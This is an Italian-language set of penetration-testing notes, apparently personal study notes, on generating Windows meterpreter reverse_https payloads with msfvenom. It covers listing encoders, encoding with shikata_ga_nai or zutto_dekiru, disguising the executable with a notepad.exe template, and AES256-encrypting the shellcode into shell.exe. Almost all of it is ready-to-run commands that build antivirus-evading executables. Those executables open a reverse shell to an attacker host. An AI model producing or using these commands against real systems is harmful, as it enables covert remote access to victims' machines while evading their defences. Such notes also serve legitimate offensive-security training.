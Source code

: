 ### **ENCODERS**
Per listare gli encoders disponibili
```bash
msfvenom --list encoders
```
e per generare il payload
```bash
sudo msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -e <ENCODER> -f exe -o <OUT PATH>
```
![[Pasted image 20230505171428.png]]
per 32 bit il miglior encoder è *shikata_ga_nai*
per 64 bit il miglior encoder è *zutto_dekiru*

Per cambiare template dell'exe puoi usare un differente executables con l'opzione *-x*
```bash
-x /home/kali/notepad.exe
```

### **ENCRYPTORS**
Meglio degli encoder
Per listare gli encryptors disponibili
```bash
msfvenom --list encrypt
```
Utilizzando il protocollo AES256 si genera un eseguibile con lo shellcode encryptato
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=4444 --encrypt aes256 --encrypt-key <CHIAVI CRIPTAZIONE> -f exe -o shell.exe
```

